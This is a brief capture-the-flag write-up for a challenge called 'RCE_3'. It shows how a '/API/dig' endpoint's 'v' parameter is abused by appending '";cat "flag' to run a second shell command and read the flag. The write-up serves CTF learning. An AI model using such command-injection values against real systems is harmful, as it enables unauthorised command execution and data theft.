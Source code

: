 # RCE_3 - site.scm.CdU9Xbn8BaPxZssoouDPIg.exam.ns.agency (/API/dig)

After visiting the robots.txt file and visiting the `/API/dig` path to discover the `v` parameter, if a user were to visiting `/API/dig?v=1.1.1.1` they would receive the following output.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CDBDAD1A1E89CCC50B184DFCDFAA97E7399DB0AA30A1DBB2365E916F0CCC6B11_1528381150213_Screen+Shot+2018-06-07+at+11.54.20+pm.png)

The same way as rce_1, and rce_2, visiting the URL `/API/dig?v=1.1.1.1";cat "flag` to release the flag.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CDBDAD1A1E89CCC50B184DFCDFAA97E7399DB0AA30A1DBB2365E916F0CCC6B11_1528381181667_Screen+Shot+2018-06-07+at+11.54.46+pm.png)
